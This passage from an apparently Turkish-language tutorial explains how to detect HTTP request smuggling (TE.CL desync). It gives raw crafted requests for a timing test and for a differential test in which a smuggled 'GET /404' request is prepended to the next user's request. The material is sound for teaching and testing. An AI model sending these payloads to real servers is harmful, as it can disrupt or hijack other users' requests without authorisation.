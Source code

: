           POST / HTTP/1.1
          Host: vulnerable-website.com
          Transfer-Encoding: chunked
          Content-Length: 6

          0

          X

Front-end TE kullandığı için sıfıra kadar olan kısımı görecek, sıfırda isteğin bittiğini düşünecektir. Back-end ise CL'de 6 sayısını gördüğü için isteğin geri kalanına da bakacaktır. Bu işlem gözle görülür bir gecikmeye sebebiyet verirse, sistem bahsi geçen açığa karşı zaaflıdır.

NOT: Eğer sistem CL.TE açığına zaaflı ise TE.CL denemelerimiz sunucuyla iletişim halindeki diğer kullanıcıları da etkileyebileyebilir. Bu yüzden TE.CL'den önce CL.TE açığı araması yapmamız daha sağlıklı olacaktır.


#### b) Farklı İstek Bazlı Açık Tespiti

Eğer sunucuya aşağıdaki gibi bir istek gönderirsek;

          POST /search HTTP/1.1
          Host: vulnerable-website.com
          Content-Type: application/x-www-form-urlencoded
          Content-Length: 2
          Transfer-Encoding: chunked

          7c
          GET /404 HTTP/1.1
          Host: vulnerable-website.com
          Content-Type: application/x-www-form-urlencoded
          Content-Length: 144

          x=
          0

Front-end TE ile çalıştığı için sıfıra kadar olan kısmı işleyecektir. Ancak back-end CL ile çalığından ötürü içeriği 4 byte olarak görecek ve sadece 2 bytelık kısmı işleyecektir. Gönderdiğimiz istekteki 2 bytedan sonra gelenler, bir sonraki isteğin başına eklenecektir. Bir sonraki istek şu şekilde algılar;

          GET /404 HTTP/1.1
          Host: vulnerable-website.com
          Content-Type: application/x-www-form-urlencoded
          Content-Length: 146

          x=
          0

          POST /search HTTP/1.1
          Host: vulnerable-website.com
          Content-Type: application/x-www-form-urlencoded
          Content-Length: 11

          q=smuggling

Bu istek geçersiz bir URL içerdiğinden ötürü 404 hatası alarak, hedefin HTTP Request Smuggling açığına karşı zaaflı olduğunu öğreniriz.
